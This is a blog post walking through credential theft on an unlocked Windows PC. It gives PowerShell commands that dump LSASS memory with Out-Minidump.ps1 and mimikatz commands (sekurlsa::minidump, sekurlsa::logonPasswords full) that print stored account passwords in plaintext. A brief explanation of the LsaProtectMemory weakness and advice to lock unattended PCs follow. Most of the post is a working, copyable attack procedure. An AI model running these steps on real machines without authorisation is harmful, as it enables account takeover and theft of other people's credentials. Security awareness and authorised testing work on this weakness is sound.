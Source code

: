 ```yaml
---
layout: post
title: Uncover user password from unlocked Windows PC with less than 5 minutes
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning about the existing vulnerability in Windows OS where you can get the plaintext view of your passwords on any unlocked Windows PC. So, I tried it on my Windows 10 PC and found that the vulnerability is still exist. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC providing that they know how to use the following tools.

In summary, here is what you need to do:



### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all the tools above first.



### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, I will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time I need to use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now I can view the passwords. Now, I will run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! There, I can see my actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}



### Explanation of the vulnerability

The fact is that the password is encrypted but it's _useless_ as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). So, the Windows stores these encrypted user passwords in memory without using any of one-way hash algorithm which is decryptable using **LsaUnprotectMemory** function to a plain text.

**It is RECOMMENDED to always LOCK your Windows PC when you are away, especially when you are in office or public place. This hacking can simply be done less than five minutes!**